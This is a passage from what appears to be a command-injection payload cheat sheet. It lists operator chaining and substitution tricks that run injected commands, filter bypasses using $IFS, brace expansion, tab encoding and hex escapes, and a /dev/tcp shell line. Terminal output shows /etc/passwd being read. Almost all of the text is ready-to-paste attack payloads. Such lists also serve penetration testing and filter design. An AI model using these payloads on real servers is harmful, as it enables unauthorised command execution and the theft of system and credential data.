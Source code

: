 ```powershell
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail
```

### Inside a command

```bash
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)
```

## Filter Bypasses

### Bypass without space

Works on Linux only.

```powershell
swissky@crashlab:~/Www$ cat</etc/passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab:~$ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab:~$ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab:~$ X=$'uname\x20-a'&&$X
Linux crashlab 4.4.X-XX-generic #72-Ubuntu

swissky@crashlab:~$ sh</dev/tcp/127.0.0.1/4242
```

Commands execution without spaces, $ or { } - Linux (Bash only)

```powershell
IFS=,;`cat<<<uname,-a`
```

Tabs work as separators in web apps where spaces are removed.

```powershell
;ls%09-al%09/home
drwxr-xr-x  4 root root  4096 Jan 10 13:34 .
drwxr-xr-x 18 root root  4096 Jan 10 13:33 ..
drwx------  2 root root 16384 Jan 10 13:31 lost+found
drwxr-xr-x  4 test test  4096 Jan 13 08:30 test
```
